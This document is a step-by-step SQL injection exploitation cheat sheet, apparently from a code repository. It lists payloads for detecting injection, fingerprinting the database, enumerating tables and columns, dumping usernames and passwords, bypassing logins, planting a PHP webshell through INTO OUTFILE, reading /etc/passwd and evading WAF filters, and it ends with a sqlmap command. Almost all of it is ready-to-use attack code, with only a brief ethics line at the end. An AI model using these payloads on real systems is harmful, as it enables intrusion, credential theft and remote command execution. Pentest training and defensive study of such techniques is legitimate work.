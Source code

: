 # SQL Injection Exploitation Cheat Sheet

## 🛠️ Step-by-Step Manual SQL Injection Exploitation

---

## 1️⃣ Identify SQL Injection Vulnerability

### **Basic Testing Payloads**
Try these in input fields (username, search, etc.) or URL parameters:

```sql
' OR 1=1 --  
" OR 1=1 --  
' OR 'a'='a' --  
" OR "a"="a" --  
' OR 1=1#  
```

### **Boolean-based SQLi (True/False Response)**
```sql
' AND 1=1 --  -- ✅ should return normal page
' AND 1=0 --  -- ❌ should return error or different response
```

### **Error-Based SQLi (Extract Information)**
```sql
' AND (SELECT 1/0) --   -- Division by zero error
' UNION SELECT 1, @@version --  -- Retrieves database version
```

### **Time-Based SQLi (Blind SQLi)**
If no visible errors, use time delays:
```sql
' OR IF(1=1, SLEEP(5), 0) --   -- MySQL
' OR pg_sleep(5) --            -- PostgreSQL
' OR WAITFOR DELAY '00:00:05' --  -- MSSQL
```

---

## 2️⃣ Determine Database Type

Use these queries to detect the DBMS:

```sql
SELECT @@version;           -- MySQL, MSSQL
SELECT version();           -- PostgreSQL
SELECT banner FROM v$version; -- Oracle
SELECT database();          -- MySQL
SELECT db_name();           -- MSSQL
```

---

## 3️⃣ Find Number of Columns

Use `ORDER BY` or `UNION SELECT`:

```sql
' ORDER BY 1 --  
' ORDER BY 2 --  
' ORDER BY 3 --  -- Keep increasing until error
```

Alternatively, use `UNION SELECT`:

```sql
' UNION SELECT NULL --  
' UNION SELECT NULL, NULL --  
' UNION SELECT NULL, NULL, NULL --  -- Keep increasing NULLs
```

Once found, use it for data extraction.

---

## 4️⃣ Extract Database Information

### **Find Database Name**
```sql
' UNION SELECT 1, database() --  -- MySQL
' UNION SELECT 1, db_name() --   -- MSSQL
' UNION SELECT 1, current_database() --  -- PostgreSQL
```

### **Find Table Names**
```sql
' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema=database() --  
```

### **Find Column Names**
```sql
' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users' --  
```

---

## 5️⃣ Dump Sensitive Data

```sql
' UNION SELECT 1, username, password FROM users --  
```

If passwords are hashed, try cracking them with `hashcat` or `john`.

---

## 6️⃣ Bypass Authentication

```sql
' OR '1'='1' --  
admin' --  
admin' #  
admin' OR '1'='1' --  
```

---

## 7️⃣ Upload a Webshell (MySQL)

```sql
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' --  
```

Access via `http://target.com/shell.php?cmd=whoami`

---

## 8️⃣ Privilege Escalation via SQLi

### **Check User Privileges**
```sql
' UNION SELECT user, host FROM mysql.user --  
' UNION SELECT 1, user(), 2 --  
' UNION SELECT 1, current_user(), 2 --  
```

### **Enable File Read/Write**
```sql
' UNION SELECT LOAD_FILE('/etc/passwd') --  
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO DUMPFILE '/var/www/html/shell.php' --  
```

---

## 9️⃣ Evading WAFs & Filters

### **Bypass Quotes**
```sql
admin' --  -- ✅ Works normally
admin'/**/--  -- ✅ Comments help bypass filters
```

### **Bypass Keyword Filters**
```sql
UNION/**/SELECT/**/1,2,3 --  
'UNION'+'SELECT'+1,2,3 --  
```

### **Hex Encoding (MySQL)**
```sql
' UNION SELECT 1, 0x61646d696e, 0x70617373776f7264 --  -- Hex for 'admin', 'password'
```
### **Additional**
Finding all databases
```
' UNION SELECT 1, schema_name FROM information_schema.schemata --  
```
---

## 🔚 Final Notes

- Automate with `sqlmap` if allowed:
  ```sh
  sqlmap -u "http://target.com/index.php?id=1" --dbs
  ```
- Be ethical! Use only in **legal** environments (e.g., CTF, labs, bug bounties).
- Consider WAF bypass techniques if needed.

---

